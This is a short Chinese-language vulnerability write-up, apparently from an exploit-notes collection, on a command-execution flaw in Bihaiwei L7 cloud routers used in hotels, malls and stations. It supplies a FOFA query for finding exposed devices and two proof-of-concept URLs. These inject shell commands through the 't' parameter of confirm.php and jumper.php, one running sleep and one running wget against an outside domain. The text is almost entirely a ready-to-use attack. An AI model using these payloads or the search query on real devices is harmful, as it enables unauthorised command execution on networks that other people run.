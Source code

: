 **漏洞描述**

碧海威L7网络产品是为酒店、度假村、商场和车站等商用无线管理者独身订造的专用网络设备。设备具备路由、防火墙、流控、无线AC控制器、微信认证等多项功能。碧海威 L7多款产品confirm存在命令执行漏洞

**fofa搜索语句**

product="碧海威科技-L7云路由"

**影响版本**

碧海威 L7多款产品

**漏洞复现**

POC1：

```
/notice/confirm.php?t=;sleep%203
```

POC2：

```
/notice/jumper.php?t=;wget%207x7l9.z9z.top
```